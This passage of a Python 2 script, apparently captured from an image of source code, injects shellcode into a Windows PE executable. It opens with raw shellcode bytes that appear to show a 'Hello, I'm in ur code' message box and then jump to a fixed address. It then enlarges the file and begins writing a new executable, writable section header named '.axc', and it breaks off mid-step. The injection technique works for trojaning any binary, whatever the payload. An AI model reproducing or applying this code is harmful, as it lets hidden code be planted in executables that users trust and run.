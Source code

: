 ```python
                  b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
                  b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x69\x74\x79\x58\x68"
                  b"\x65\x63\x75\x72\x68\x6b\x49\x6e\x53\x68\x42\x72\x65"
                  b"\x61\x31\xdb\x88\x5c\x24\x0f\x89\xe3\x68\x65\x58\x20"
                  b"\x20\x68\x20\x63\x6f\x64\x68\x6e\x20\x75\x72\x68\x27"
                  b"\x6d\x20\x69\x68\x6f\x2c\x20\x49\x68\x48\x65\x6c\x6c"
                  b"\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x6a\x40\x53"
                  b"\x51\x52\xff\xd0\xB8\xF0\x50\x45\x00\xFF\xD0")

# STEP 0x01 - Resize the Executable
# Note: I added some more space to avoid error
print "[*] STEP 0x01 - Resize the Executable"

original_size = os.path.getsize(exe_path)
print "\t[+] Original Size = %d" % original_size
fd = open(exe_path, 'a+b')
map = mmap.mmap(fd.fileno(), 0, access=mmap.ACCESS_WRITE)
map.resize(original_size + 0x2000)
map.close()
fd.close()

print "\t[+] New Size = %d bytes\n" % os.path.getsize(exe_path)

# STEP 0x02 - Add the New Section Header
print "[*] STEP 0x02 - Add the New Section Header"

pe = pefile.PE(exe_path)
number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
file_alignment = pe.OPTIONAL_HEADER.FileAlignment
section_alignment = pe.OPTIONAL_HEADER.SectionAlignment
new_section_offset = (pe.sections[number_of_section - 1].get_file_offset() + 40)

# Look for valid values for the new section header
raw_size = align(0x1000, file_alignment)
virtual_size = align(0x1000, section_alignment)
raw_offset = align((pe.sections[last_section].PointerToRawData +
                    pe.sections[last_section].SizeOfRawData),
                   file_alignment)

virtual_offset = align((pe.sections[last_section].VirtualAddress +
                        pe.sections[last_section].Misc_VirtualSize),
                       section_alignment)

# CODE | EXECUTE | READ | WRITE
characteristics = 0xE0000020
# Section name must be equal to 8 bytes
name = ".axc" + (4 * '\x00')

# Create the section
# Set the name
pe.set_bytes_at_offset(new_section_offset, name)
print "\t[+] Section Name = %s" % name
# Set the virtual size
pe.set_dword_at_offset(new_section_offset + 8, virtual_size)
print "\t[+] Virtual Size = %s" % hex(virtual_size)
# Set the virtual offset
pe.set_dword_at_offset(new_section_offset + 12, virtual_offset)
print "\t[+] Virtual Offset = %s" % hex(virtual_offset)
# Set the raw size
pe.set_dword_at_offset(new_section_offset + 16, raw_size)
print "\t[+] Raw Size = %s" % hex(raw_size)
# Set the raw offset
```